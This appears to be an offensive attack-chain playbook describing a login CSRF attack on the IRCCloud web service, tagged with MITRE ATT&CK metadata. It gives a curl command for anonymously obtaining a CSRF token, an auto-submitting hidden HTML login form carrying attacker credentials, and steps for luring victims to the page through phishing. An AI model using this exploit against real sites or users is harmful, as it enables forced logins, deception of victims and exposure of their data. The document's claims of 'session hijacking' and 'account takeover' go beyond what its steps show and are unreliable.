

---
tags:
  - csrf
  - login-csrf
  - web-vulnerability
  - authentication-bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Obtain-Anonymous-CSRF-Token-from-IRCCloud]]'
  - '[[procedures/Create-Malicious-Login-CSRF-Form]]'
  - '[[procedures/Trick-Victim-into-Submitting-CSRF-Form]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:27:29.992Z'
description: >-
  A multi-stage attack exploiting inadequate CSRF protection in IRCCloud's login
  process to force victims to authenticate as the attacker, potentially
  hijacking sessions and exposing data.
skill_level: intermediate
impact_level: high
id: 5faa7799-f216-42c2-8f5c-4d30ea7fcb1e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
---
# Login CSRF Attack via Anonymous Token Retrieval in IRCCloud

Multi-stage attack chain demonstrating a complete login CSRF workflow against IRCCloud, where attackers obtain CSRF tokens anonymously and use them to forge login requests on behalf of victims.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or curl for testing
- Web server to host malicious HTML (e.g., local Apache or GitHub Pages)

### Target Environment

- IRCCloud web application (https://www.irccloud.com)
- No specific ports required beyond standard HTTPS (443)
- Attacker needs valid IRCCloud credentials (email/password)

### Initial Access Requirements

- No prior authentication needed for token retrieval
- Victim must visit attacker-controlled site (e.g., via phishing link)
- Network access to IRCCloud from victim's browser

## Detailed Attack Procedures

### Step 1: Obtain Anonymous CSRF Token
procedure: [[procedures/Obtain-Anonymous-CSRF-Token-from-IRCCloud]]

**Objective**: Retrieve a valid CSRF token without authentication to enable cross-origin form submission.

**Instructions**: Use [[commands/request-irccloud-csrf-token]] to send a POST request to the token endpoint:

```bash
curl -X POST https://www.irccloud.com/chat/auth-formtoken \
  -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
  -H "X-Requested-With: XMLHttpRequest" \
  -d "_reqid=1"
```

Extract the token from the JSON response.

**Expected Output**: JSON response containing a token like {"token": "1397481736.3b1f59ae47e1a139e8a631b2589dfae2"}.

**Success Indicators**:
- Valid token received without session cookies
- Token can be used in subsequent login requests

### Step 2: Create Malicious Login CSRF Form
procedure: [[procedures/Create-Malicious-Login-CSRF-Form]]

**Objective**: Build an HTML form that submits the attacker's credentials using the obtained token, targeting the login endpoint.

**Instructions**: Create an HTML file with a hidden form embedding the token and attacker credentials. Host it on an attacker-controlled server. Example form structure:

```html
<form id="csrf-form" action="https://www.irccloud.com/chat/login" method="POST">
  <input type="hidden" name="email" value="attacker@example.com">
  <input type="hidden" name="password" value="attacker_password">
  <input type="hidden" name="org_invite" value="">
  <input type="hidden" name="token" value="1397481736.3b1f59ae47e1a139e8a631b2589dfae2">
  <input type="hidden" name="_reqid" value="2">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

Save as index.html and serve via a web server.

**Expected Output**: Form auto-submits when loaded, sending POST to /chat/login.

**Success Indicators**:
- Form loads without errors in victim's browser
- Network tab shows POST to IRCCloud login endpoint

### Step 3: Trick Victim into Form Submission
procedure: [[procedures/Trick-Victim-into-Submitting-CSRF-Form]]

**Objective**: Lure the victim to the malicious page, causing unintended login as the attacker and potential session compromise.

**Instructions**: Distribute the URL via phishing email, social engineering, or malicious link. When victim visits, the form auto-submits, logging them into the attacker's account. Monitor for success via shared session indicators (e.g., if attacker has access to victim's cookies or subsequent actions).

**Expected Output**: Victim's browser authenticates to attacker's IRCCloud account; potential exposure of victim's session state.

**Success Indicators**:
- Victim reports unexpected login or account switch
- Attacker observes new session from victim's IP in IRCCloud logs (if accessible)

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection by anonymously obtaining tokens
2. Forged login credentials cross-origin without victim interaction beyond page load
3. Achieved session hijacking, enabling data exposure or account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
